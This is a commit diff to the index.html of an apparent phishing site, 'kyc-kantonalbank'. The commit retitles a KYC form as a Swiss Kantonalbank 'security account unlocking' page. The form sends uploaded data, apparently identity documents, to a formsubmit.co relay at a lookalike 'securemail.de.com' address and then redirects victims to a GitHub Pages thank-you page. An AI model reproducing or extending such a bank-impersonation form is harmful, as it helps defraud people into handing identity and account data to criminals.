

Before and after one commit to nextterminal/kyc-kantonalbank, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 923 px of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Ident-Verfahren zur Kontoeröffnung</title>
+  <title>Kantonalbank Schweiz – Freischaltung Ihres Sicherheitskontos</title>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -69,7 +69,7 @@
 </head>
 <body>
   <div class="form-container">
-    <h2>Ident-Verfahren zur Kontoeröffnung</h2>
+    <h2>Kantonalbank Schweiz – Freischaltung Ihres Sicherheitskontos</h2>
     <form action="https://formsubmit.co/kantonalbank@securemail.de.com" method="POST" enctype="multipart/form-data">
       <input type="hidden" name="_captcha" value="false">
       <input type="hidden" name="_next" value="https://nextterminal.github.io/kyc/thanks.html">
```
